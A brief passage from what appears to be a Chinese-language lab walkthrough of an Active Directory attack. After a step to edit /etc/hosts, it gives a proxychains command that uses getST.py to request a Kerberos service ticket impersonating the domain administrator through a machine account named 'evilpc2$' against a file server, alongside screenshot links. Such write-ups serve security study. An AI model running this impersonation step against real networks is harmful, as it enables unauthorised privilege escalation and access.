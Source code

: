 [![](assets/1706846898-c584a3c2160804ec0c48eda6f17d1842.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214131-70fc0dc8-c03e-1.png)

接下来就到了申请 ST 的步骤了，不过在申请之前，我们需要先配置下映射关系

```plain
vim /etc/hosts
```

[![](assets/1706846898-b4f94d9473f4f606226ffe458915a830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214137-74b847ce-c03e-1.png)

而后申请 ST

```plain
proxychains python3 getST.py -dc-ip 172.22.60.8 xiaorang.lab/evilpc2$:password -spn cifs/FILESERVER.xiaorang.lab -impersonate administrator
```

[![](assets/1706846898-8db25659c376dd45686ea814d0d955d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214145-79b3e7ec-c03e-1.png)
